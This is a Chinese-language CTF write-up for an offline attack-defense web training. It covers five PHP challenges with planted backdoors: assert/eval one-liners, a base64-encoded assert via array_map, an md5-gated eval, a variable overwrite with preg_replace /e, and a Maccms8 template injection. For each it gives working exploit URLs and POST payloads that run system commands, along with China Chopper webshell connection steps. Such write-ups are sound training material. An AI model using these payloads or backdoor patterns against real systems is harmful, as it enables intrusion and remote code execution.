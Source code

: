 ```yaml
---
title: 线下Web训练
date: 2018-04-14 00:00:00
categories:
- CTF/Web
tags: 开心的三人组 
--- 
```


## web1

### 漏洞位置


/engine/Plugin/View.php | 227行 | 任意代码执行


```php
@($_REQUEST['test']);
```


### 漏洞利用

由于View.php第一行代码：

```php
<?php defined('WEBSITE_ACCESS') or die('No direct script access.');
```

使得View.php必须通过定义了WEBSITE_ACCESS的php文件包含才能加载，尝试在index.php直接get提交test参数，即可利用成功。菜刀连接直接连接index.php即可，密码为test。或者利用如下url直接getflag：

```
index.php?test=system('cat /flag');
```

具体index.php是如何包含view.php的，过程比较复杂，我还没研究明白。

## web2

> 本题不能通过直接把服务器下载的源码直接挂到其他服务器上，因为要连接数据库，所以找未安装的maxcms源码运行install.php即可，源码下载：[https://pan.baidu.com/s/1D43OY8k01UNALZsLCBEN4A](链接:https://pan.baidu.com/s/1D43OY8k01UNALZsLCBEN4A) 密码:pc4m


### 漏洞分析

[Maccms8.x 命令执行漏洞分析(苹果cms) - 颓废's Blog](https://www.0dayhack.com/post-285.html)

### 漏洞利用：

菜刀连接如下url，密码为0

```
/index.php?m=vod-search&wd={if-A:assert($_POST[0])}{endif-A}
```

或者利用如下url直接getflag

```
/index.php?m=vod-search&wd={if-A:system('cat /flag')}{endif-A}
```

## web3

### 漏洞位置


/admin/inc/configuration.php | 4行 | 任意代码执行


```php

@array_map('assert',(array)base64_decode($_REQUEST['getconfig']));
```

#### array_map

将函数作用到数组中的每个值上，每个值都乘以本身，并返回带有新值的数组：

```php
<?php
function myfunction($v)
{
  return($v*$v);
}

$a=array(1,2,3,4,5);
print_r(array_map("myfunction",$a));
?>
```

### 漏洞分析

1. 将请求中的getconfig参数baes64编码后，转换为数组
2. 将数组中的每一个值（其实就一个），传给assert函数，导致任意代码执行

### 漏洞利用

```php

<?php

echo base64_encode('@eval($_POST[0]);')."\n";
//QGV2YWwoJF9QT1NUWzBdKTs=

echo base64_encode("system('cat /flag');");
//c3lzdGVtKCdjYXQgL2ZsYWcnKTs=

?>
```

菜刀连接如下url，密码为0

```
admin/inc/configuration.php?getconfig=QGV2YWwoJF9QT1NUWzBdKTs=
```

或者直接getflag

```
admin/inc/configuration.php?getconfig=c3lzdGVtKCdjYXQgL2ZsYWcnKTs=
```

## web4

> php5.4及其以上正常运行此题

### 漏洞位置


/index.php | 8-11行 | 任意代码执行


```php
if(md5(@$_GET['p']) == '962012d09b8170d912f0669f6d7d9d07'){
    eval($_POST['hello']);
    die();
}

```



/data/inc/front/product.php| 53行 | 任意代码执行


```
($_=@$_GET['hs']).@$_($_POST['c014']);
```



### 漏洞分析

- 漏洞1

cmd5解出962012d09b8170d912f0669f6d7d9d07为qwer

- 漏洞2

product.php第一行

```php
defined('defined('IN_CMS') or exit('Access denied!');') or exit('Access denied!');
```

需要被定义IN_CMS的其他php文件包含才能执行，容易发现index.php有file参数，即可包含

index.php 90-101行
```php

if (isset($_GET['file']))
{
	$file = $_GET['file'];
	if (strpos($file, '..')!==false || strpos($file, 'images/')!==false){
		die("ctf{ff96520020d34df2f5058e74bc274c87}");
	}
	include('data/inc/front/'.$_GET['file'].'.php');
}
else
{
	include('data/inc/front/index.php');
}

```

### 漏洞利用


- 漏洞1

```
index.php?p=qwer

hello=system('cat /flag');
```

- 漏洞2

```
index.php?file=product.php&cid=3&page=1&hs=system

c014=cat /flag
```

## web5

### 漏洞位置

/normaliz.php | 4-17行 | 任意代码执行


```php
function action($post_data, $ip_replacement, $mail_replacement){
	foreach ($post_data as $key => $value) {
		$$key = $value;
	}
	try{
		if ($method == '/\\d+\\.\\d+\\.\\d+\\.\\d+/')
		{
			$res = preg_replace($method, $ip_replacement, $source);
		}
		else
		{
			$res = preg_replace($method, $mail_replacement, $source);
		}
	}
```

### 漏洞分析

1. $$key=$value;导致变量覆盖，可覆盖$method, $ip_replacement, $source
2. 使$method覆盖为为/e匹配模式
3. 找到$post_data在/action.php中由所有的POST参数生成
4. 并且action.php存在文件包含功能

action.php

```php

<?php
require_once("library/common.php");
require_once("library/view.php");
$page = filter($_POST['page']).'.php';
$post_data = array();
foreach ($_POST as $key => $value) {
	$post_data[$key] = $value;
}
@require_once($page);
?>

```

### 漏洞利用

利用action.php包含normaliz.php，然后覆盖相应变量即可，payload如下：

```
/action.php

page=normaliz&method=/a/e&mail_replacement=system('cat /flag');&source=a
```

